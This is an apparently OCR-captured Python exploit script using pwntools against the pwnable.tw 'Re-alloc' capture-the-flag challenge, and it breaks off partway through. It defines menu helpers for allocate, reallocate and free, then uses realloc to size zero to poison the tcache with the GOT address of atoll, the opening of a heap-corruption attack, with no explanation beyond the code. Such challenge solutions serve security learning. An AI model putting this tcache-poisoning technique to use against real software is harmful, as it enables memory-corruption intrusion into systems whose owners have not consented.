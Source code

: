 ```python
#!/usr/bin/env python3

from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./re-alloc")
	libc = ELF("./libc-realloc.so")
	io = process(elf.path)
else:
	elf = ELF("./re-alloc")
	libc = ELF("./libc-realloc.so")
	io = remote("chall.pwnable.tw",10106)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

def alloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("1")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    io.recvuntil("Data:")
    io.send(data)

def realloc(idx, size, data):
    io.recvuntil("Your choice: ")
    io.sendline("2")
    io.recvuntil("Index:")
    io.sendline(str(idx))
    io.recvuntil("Size:")
    io.sendline(str(size))
    if size != 0:
        io.recvuntil("Data:")
        io.send(data)

def free(idx):
    io.recvuntil("Your choice: ")
    io.sendline("3")
    io.recvuntil("Index:")
    io.sendline(str(idx))

alloc(0, 0x18, "AAA")
realloc(0, 0, "")
realloc(0, 0x18, p64(elf.got["atoll"]))
alloc(1, 0x18, "BBB")

realloc(0, 0x28, "CCC")
free(0)
realloc(1, 0x28, "s"*0x10)
```